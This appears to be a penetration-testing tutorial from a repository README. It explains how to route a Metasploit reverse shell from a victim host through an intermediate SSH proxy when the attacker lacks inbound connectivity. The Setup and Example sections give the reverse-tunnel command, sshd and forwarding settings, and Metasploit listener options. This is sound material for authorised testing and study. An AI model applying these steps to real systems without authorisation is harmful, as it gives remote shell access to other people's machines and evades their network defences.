 # Reverse shell from behind a firewall using an intermediate SSH host

## Scenario
The following describes overcoming a scenario where your Metasploit instance does not have inbound connectivity for a reverse shell on a target machine to connect to. It assumes you cannot use a bind shell on the victim as an alternative.

The attacking machine could be hosted in a private network, behind a firewall with NAT or even connected to the Tor network with only outbound connectivity possible.

![Image](images/1.png)

The payload used for the reverse shell can be anything desired from Metasploit's suite of reverse payloads.

## Setup
The prerequisite is you have access to a secondary host which the target victim host will connect to on successful exploitation. In this example we will be using the SSH protocol to proxy the connections.

Take note of the direction of the arrows in the following diagram. The attacking host (192.168.0.1) can establish a connection to the proxy host (10.0.0.1) and can also reach victim host (172.16.0.1). The vicim host can connect to the proxy host -

![Image](images/2.png)

Before exploitation, a reverse SSH tunnel is established from the attacking host to the proxy host by invoking the ssh client with the `-R` switch. Connections are forwarded to localhost. In this example, port 4444 is used for both the local and remote bind port -

```bash
ssh user@10.0.0.1 -f -N -T -R 4444:127.0.0.1:4444
```
![Image](images/3.png)

By default, SSHD will listen to the loopback interface only on the remote host. We want to allow external connectivity to port 4444 on our proxy host so our victim host can connect. Configure `GatewayPorts yes` in `/etc/ssh/sshd_config` on the SSH proxy so the socket listens on 0.0.0.0. You can verify this is working (i.e 0.0.0.0) -

``` bash
$ netstat -tan | grep 4444
tcp        0      0 0.0.0.0:4444           0.0.0.0:*               LISTEN     
tcp6       0      0 :::4444                :::*                    LISTEN     
```

Note: Ensure IPv4 forwarding is enabled on the SSH proxy, i.e.  
`sysctl -w net.ipv4.ip_forward=1` and the firewall rules on the permits inbound traffic on port 4444.

Now everything is setup, the exploit is triggered from Metasploit, invoking a reverse shell payload on the victim host. The victim host establishes a connection to the proxy host, rather then the attacking machine -

![Image](images/4.png)

As there is a reverse tunnel bound to port 4444, the victim's reverse shell will effectively be proxied to the attacker over the reverse SSH tunnel. We then obtain a reverse shell -

![Image](images/5.png)

There are two settings that must be configured in Metasploit for this to work -

1. Set LHOST to the IP address of the SSH proxy server, otherwise the payload executed on the victim will attempt to connect to the non-routable IP address bound to the attacker host (192.168.0.1)

2. By default Metasploit will bind to interface address specified by LHOST. Configure reverse listener to bind to the loopback address or all interfaces with `ReverseListenerBindAddress 0.0.0.0`

## Example
Recapping and putting this all together with an example payload -

1) On the attacking machine, connect to the SSH proxy and create a reverse tunnel -

```
# ssh user@10.0.0.1 -f -N -T -R 4444:127.0.0.1:4444
```

2) Open msfconsole and configure and execute -  

![Image](images/7.png)
